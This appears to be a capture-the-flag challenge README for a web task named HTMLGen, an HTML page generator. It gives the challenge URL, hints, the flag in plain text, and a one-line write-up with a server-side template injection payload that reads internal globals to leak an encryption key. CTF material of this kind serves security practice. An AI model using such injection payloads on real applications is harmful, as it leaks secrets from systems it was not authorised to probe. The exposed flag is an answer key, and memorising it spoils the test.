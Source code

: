 # HTMLGen
---

## Category
Web

## Description
HTML Page Generator, Creates an HTML Page based on User Input, I think it is Exceptionally Secure. Prove I am wrong!

این نرم افزار صفحات وب را براساس ورودی کاربر ایجاد میکند! به نظر من این سایت بسیار امن است، ثابت کن که من اشتباه میکنم.

Challenge URL: `http://exploitio.ir:8080`

Source Code: `https://github.com/exploit-io/code-review-challenges/tree/main/ch-50-HTMLGen`

Format: ‍‍‍‍`EXPLOITIO{*}`
Author: `exploitio`

## Port
808

## Flag
EXPLOITIO{I_4M_Th3_M4ST3R_0F_SSTI}

## Hint
1. Please Don't Brute Force the Website, The FW may Block You!
2. It is NOT XSS!

## Write-UPs

in the html code text box enter following text

```py
{self.__init__.__globals__[encryption_key].__code__.co_consts}
```

